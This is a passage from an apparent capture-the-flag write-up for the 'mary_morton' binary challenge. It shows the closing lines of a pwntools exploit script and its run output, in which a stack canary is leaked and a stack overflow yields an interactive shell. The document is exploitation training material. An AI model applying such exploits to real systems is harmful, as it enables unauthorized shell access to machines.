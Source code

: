 ```
target.send(payload)

#Drop to an interactive shell
target.interactive()
```

When we run the exploit:

```
[+] Starting local process './mary_morton_patched': pid 1719
[*] running in new terminal: /usr/bin/gdb -q  "./mary_morton_patched" 1719 -x "/tmp/pwnhoGB4g.gdb"
[+] Waiting for debugger: Done

Welcome to the battle !
[Great Fairy] level pwned
Select your weapon
1. Stack Bufferoverflow Bug
2. Format String Bug
3. Exit the battle
canary: 0x3d2b93f37b9ad900
1. Stack Bufferoverflow Bug
2. Format String Bug
3. Exit the battle
[*] Switching to interactive mode

-> 0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
$ w
 18:29:13 up  2:48,  1 user,  load average: 0.10, 0.06, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vagrant  pts/0    10.0.2.2         18:25    0.00s  0.29s  0.00s tmux
[*]
```

Just like that, we popped a shell!
